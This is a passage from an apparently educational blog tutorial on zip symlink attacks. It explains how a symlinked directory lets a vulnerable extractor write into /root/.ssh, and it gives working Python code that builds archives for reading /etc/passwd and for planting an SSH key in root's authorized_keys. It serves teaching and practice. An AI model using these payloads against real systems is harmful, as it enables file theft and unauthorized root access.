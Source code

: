 Now our zip contains a symlink directory! Let's go through what happens when this file is unzipped by a vulnerable app.

First, `dirlink` is decompressed and a symlink is created, pointing to `/root/.ssh/`. Next, the app tries to decompress `dirlink/authorized_keys`, which—if the app follows symlinks—gets written to `/root/.ssh/`.

Tada! We've just shown another way to achieve arbitrary file write.

Let's see what the filesystem looks like now.

```text {data-lang-off}
/
├── app/
│	└── uploads/
│	    └── dirlink        -> /root/.ssh/
└── root/
    └── .ssh/
		└── authorized_keys
```

{% alert "success" %}
**Put it into Practice**: If you're itching to try out Zip Slip and zip symlink attacks, feel free to try the [exercises I've uploaded on GitHub](https://github.com/TrebledJ/attack-of-the-zip).
{% endalert %}


#### DIY: Build your own Zip Symlink Payload!

{% details "With Python" %}
Like before, we can use Python to generate zip symlink payloads. We'll need some extra massaging with `ZipInfo` though.

```python
# evil-link-file.zip
# └── passwd.txt         -> /etc/passwd
with zipfile.ZipFile("evil-link-file.zip", "w", compression=zipfile.ZIP_DEFLATED) as zip:
  # This creates a file symlink named `passwd.txt` which links to `/etc/passwd`.
  info = zipfile.ZipInfo("passwd.txt")
  info.create_system = 0 # Linux => 0. Windows => 3.
  info.external_attr = (stat.S_IFLNK | 0o777) << 16 # File attributes.
  zip.writestr(info, "/etc/passwd")  # /etc/passwd is the file we want to read.
```

To construct a dir symlink attack, we change the path in `zip.writestr` to a directory. We also use `zip.write` to add a source file.

```python
# evil-link-dir.zip
# └── dirlink/           -> /root/.ssh/
#     └── authorized_keys
with zipfile.ZipFile("evil-link-dir.zip", "w", compression=zipfile.ZIP_DEFLATED) as zip:
  info = zipfile.ZipInfo("dirlink")
  info.create_system = 0
  info.external_attr = (stat.S_IFLNK | 0o777) << 16
  zip.writestr(info, "/root/.ssh/")

  # Add an file from our filesystem. (Not a symlink.)
  zip.write("my-ssh-key.pub", "dirlink/authorized_keys")
```
